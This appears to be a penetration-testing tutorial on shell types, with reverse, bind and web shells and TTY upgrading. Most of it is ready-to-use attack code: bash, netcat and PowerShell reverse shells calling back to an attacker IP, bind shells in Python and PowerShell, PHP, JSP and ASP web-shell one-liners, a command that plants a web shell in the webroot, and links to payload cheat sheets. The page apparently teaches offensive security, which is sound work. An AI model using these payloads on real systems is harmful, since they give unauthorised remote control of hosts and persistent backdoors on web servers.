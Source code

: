 # Types of Shells
Once we compromise a system and exploit a vulnerability to execute commands on the compromised hosts remotely, we usually need a method of communicating with the system not to have to keep exploiting the same vulnerability to execute each command. To enumerate the system or take further control over it or within its network, we need a reliable connection that gives us direct access to the system's shell, i.e., Bash or PowerShell, so we can thoroughly investigate the remote system for our next move.

If we don't have the credentials for a SSH or WinRM login, we have to use remote code execution through shells. There are three types of shells:
* **Reverse Shell**: Connects back to our system and gives us control through a reverse connection.
* **Bind Shell**: Waits for us to connect to it and gives us control once we do.
* **Web Shell**: Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

## Reverse Shell
To open a Reverse Shell, the first thing we need to do is start a listener on our system. For example with netcat:
```
nc -lvnp 1234
```
* `-l` listen mode
* `-v` verbose mode
* `-n` disable DNS resolution
* `-p` the port to listen on

If the listener is running, we can execute the Reverse Shell on the target system. On a Linux system, that can be done with one of the following commands:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

And on a Windows system we can run the following Powershell command:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The IP `10.10.10.10` has to be replaced with the IP of our system where the listener is running. As well, we have to use the same port that we selected for the listener.

If the command executes successful, the listener shows the incoming connection and has now the ability to take commands.

More payloads for different programs and languages can be found here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Bind Shell
Like already said, with the Bind Shell we have to connect to the targets listening port.

To create such a listening port we can for example use the following bash command:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Or a python command:
```bash
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

And on a Windows system a Powershell command:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

`1234` is the port that we are listening on and `0.0.0.0` represents that we are listening on all interfaces.

To connect to the listener we can use Netcat again:
```bash
nc 10.10.10.1 1234
```

The IP has to be the IP of the target system and the port has to be the port that we chose. If the Bind Shell was successful, Netcat takes commands.

More payloads for different programs and languages can be found here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

## Upgrading TTY
A shell through Netcat is very unstable and does not allow the use of any special keys. For example using the arrow keys results in different unusable input characters.

To get full functional shell, we can upgrade our TTY. To do so we have to map our terminal TTY with the remote TTY.

### python/stty
To achieve this, we can use the following commands:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

After this, we background our shell with `CTRL + Z`, input the following `stty` command and foreground our shell again:
```
www-data@remotehost$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
www-data@remotehost$
```

Now we got a fully working TTY shell.

As last step we can set the size and the `TERM` variable. For example:
```
www-data@remotehost$ export TERM=xterm-256color
www-data@remotehost$ stty rows 67 columns 318
```

To get the right settings, we can check the values in a TTY on our system:
```
$ echo $TERM
xterm-256color
$ stty size
67 318
```

## Web Shell
A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

The script itself is often an oneliner, that takes a command through a GET request. Those can look like the following:

php:
```php
<?php system($_REQUEST["cmd"]); ?>
```

jsp:
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

asp:
```asp
<% eval request("cmd") %>
```

Now we have to upload this script onto the target's web directory. If we than access the path, the script will be executed. This is often done through a vulnerability in an upload feature.

If we have the ability to run a remote code execution on the target, we can create the shell as followed:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

For different web servers there different default paths of the webroot:
* Apache: `/var/www/html/`
* Nginx: `/usr/local/nginx/html/`
* IIS: `C:\inetpub\wwwroot\`
* XAMPP: `C:\xampp\htdocs\`

Keep in mind, that this part can also be changed.

To access our webshell we can use for example `cURL` or simply a browser:
```
$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

A benefit of a web shell is that it would bypass any firewall restrictions, as it will not open a new connection on a different port. Another benefit is that the web shell is more persistence. If the system is rebooted, the file still exists.

But the downside is obviously, that the web shell isn't that interactive like a fully shell.